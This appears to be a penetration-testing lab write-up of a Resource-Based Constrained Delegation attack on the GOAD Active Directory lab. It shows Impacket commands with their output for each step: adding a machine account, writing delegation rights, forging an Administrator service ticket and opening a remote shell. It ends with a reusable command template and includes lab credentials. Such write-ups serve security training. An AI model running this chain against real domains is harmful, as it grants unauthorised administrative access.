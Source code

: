 **Resource-Based Constrained Delegation (RBCD)** is a delegation method in Active Directory environments where control over delegation is assigned to the resource. It works by allowing a resource (like a server) to specify which accounts can impersonate users to access that resource using their Kerberos tickets (TGS—Ticket Granting Service).

If a user has GenericAll/GenericWrite over a host, RBCD is possible

![[Pasted image 20241109135409.png]]

### User

- stannis.baratheon@sevenkingdoms.local:Drag0nst0ne

### The Attack

First, we need to add a computer account:

```bash
gareth@gareth:~/pentest/GOAD/v3/adcs$ addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip 192.168.56.10 sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account rbcd$ with password rbcdpass.
```

Next, is to add the delegation access:

```bash
gareth@gareth:~/pentest/GOAD/v3/adcs$ rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 192.168.56.10 -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rbcd$ can now impersonate users on kingslanding$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rbcd$        (S-1-5-21-2059722235-425686273-3516464344-1127)
```

We can now impersonate the target user by requesting a TGS:

```bash
gareth@gareth:~/pentest/GOAD/v3/adcs/v1$ getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 192.168.56.10 'sevenkingdoms.local/rbcd$:rbcdpass'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] 	Requesting S4U2self
[*] 	Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache```

Load the ticket:

```bash
gareth@gareth:~/pentest/GOAD/v3/adcs/v1$ export KRB5CCNAME=Administrator.ccache
```

Access the target host (DNS is required):

```bash
gareth@gareth:~/pentest/GOAD/v3/adcs/v1$ wmiexec.py -k -no-pass kingslanding.sevenkingdoms.local
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
sevenkingdoms\administrator
```

Summary

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-ip <dc_ip> '<domain>/<user>:<password>
rbcd.py -delegate-from 'rbcd$' -delegate-to '<target_computer>' -dc-ip <dc_ip> -action 'write' '<domain>/<user>:<password>
getST.py -spn 'cifs/<target_computer>.<domain>' -impersonate <target_user> -dc-ip <dc_ip> '<domain>/rbcd$:rbcdpass'
export KRB5CCNAME=<target_user>.ccache
wmiexec.py -k -no-pass <target_computer>.>domain>
```